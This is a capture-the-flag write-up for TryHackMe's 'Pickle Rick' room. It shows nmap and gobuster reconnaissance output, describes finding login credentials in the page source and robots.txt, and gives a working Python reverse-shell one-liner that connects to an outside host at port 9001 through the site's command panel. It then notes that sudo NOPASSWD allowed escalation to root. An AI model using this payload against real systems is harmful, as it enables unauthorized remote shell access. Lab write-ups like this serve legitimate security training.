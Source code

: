 ## Pickle Rick
---

Link to TryHackMe Room: https://tryhackme.com/room/picklerick

### Reconnaissance

#### Nmap

```
$ nmap -sV -sC 10.10.187.238 -oA recon/recon-picklerick
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-19 01:48 EST
Nmap scan report for 10.10.187.238
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e1:dc:e1:6e:ed:3f:b3:83:22:3f:8e:c4:c5:11:a8:c3 (RSA)
|   256 2f:25:82:8b:82:9e:2a:22:c6:4e:ed:c0:df:21:7f:98 (ECDSA)
|_  256 11:b8:6b:3d:9b:df:90:0a:f9:f8:8b:8e:c7:ee:23:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.43 seconds

```

#### Gobuster

```
$ gobuster dir -u http://10.10.187.238 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster/gob-picklerick
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.187.238
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/19 01:55:04 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 315] [--> http://10.10.187.238/assets/]
/server-status        (Status: 403) [Size: 301]                                   
                                                                                  
===============================================================
2021/12/19 02:33:18 Finished
===============================================================
```

This actually ended up being login.php

#### Logging into the page

Username found in the page source

The password found in the robots.txt file


#### Shell Script that worked on the website

After some testing, and script brute-forcing, I found that python commands can be executed on the website. 

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.6.82.216",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```


From there it was just looking around, the first flag was in the /var/www/html folder, second flag was in the /home/rick folder and the third was in the /root/ folder since the web user account has sudo NOPASSWD privileges



